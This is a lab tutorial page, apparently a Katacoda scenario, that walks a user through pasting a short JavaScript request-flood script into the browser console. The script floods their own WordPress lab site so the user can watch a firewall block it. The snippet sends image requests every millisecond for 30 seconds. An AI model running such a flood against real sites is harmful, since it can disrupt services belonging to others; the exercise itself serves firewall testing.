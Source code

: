## **Enforce the DDoS to test the check the traffic control of the firewall**
---

### **Step 1:** 

Access your own WordPress website in Google Chrome using the link:
`https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com `{{copy}}

<br></br>

### **Step 2:** 
Right click and click `inspect` button to open the inspect of the Google 

![Image](./assets/Inspect.png)
<br></br>

### **Step 3:** 
click the Console button to access the console:
![Image](./assets/Console.png)

### **Step 4:** 
Copy the following command and paste it in the console and click enter:


```sh {{copy}}
function imgflood() {
  let URI = '/wp-admin/DDoS.php?'
  let pic = new Image()
  let rand = Math.floor(Math.random() * 1000)
  pic.src = window.location.origin+URI+rand+'=val'
}

let DDoSTimer = setInterval(imgflood, 1); //Run it every 1 ms

setTimeout(() => clearInterval(DDoSTimer), 30000); //Stop running in 30 sec
```

![Image](./assets/ConsoleAddCommand.png)


### **Step 4:** 
Refresh the page after the DDoS command run and you can the Firewall block the DDoS attack which sends more than 1000 request successfully:

![Image](./assets/Block.png)